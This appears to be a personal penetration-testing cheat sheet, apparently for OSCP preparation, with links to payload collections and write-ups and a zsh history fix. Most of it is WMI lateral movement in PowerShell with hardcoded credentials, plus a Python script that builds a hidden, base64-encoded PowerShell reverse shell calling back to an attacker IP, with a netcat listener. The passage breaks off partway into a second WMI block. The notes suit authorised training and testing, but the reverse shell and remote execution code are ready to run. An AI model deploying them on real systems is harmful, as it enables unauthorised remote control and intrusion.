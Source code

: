 # Links
- PayloadAllTheThings https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master
- Box Writeups https://0xdf.gitlab.io/
- [PG & HTBV Boxes for OSCP Prep](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview?pli=1#)
- [Impacket usage & detection](https://neil-fox.github.io/Impacket-usage-&-detection/)

Fix zsh corrupt history
```
cd ~ ||
mv .zsh_history .zsh_history_bad ||
strings .zsh_history_bad > .zsh_history || 
fc -R .zsh_history ||
rm ~/.zsh_history_bad
```
- Python Virtual Environment https://www.freecodecamp.org/news/how-to-setup-virtual-environments-in-python/
- Building an .exe from .csproj & .sln files (.NET)
	- `git clone https://github.com/RepoToClone` then `cd RepoToClone`
## WMI
Abusing WMI in PowerShell (to launch Calc)
```
$username = 'targetuser'; #not the current user
$password = 'Password123!'; #not the current password
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.target.ip -Credential $credential -SessionOption $Options 
$command = 'calc';

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
````
---
To generate a base64-encoded reverse shell, create the following python script (encode.py);
```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.attacker.ipaddress",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
Setup a NetCat Listener: `nc -lnvp 443`
Then setup variables on the target with PowerShell & invoke process creation;
```
$username = 'targetuser';
$password = 'password123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

$options = New-CimSessionOption -Protocol DCOM
```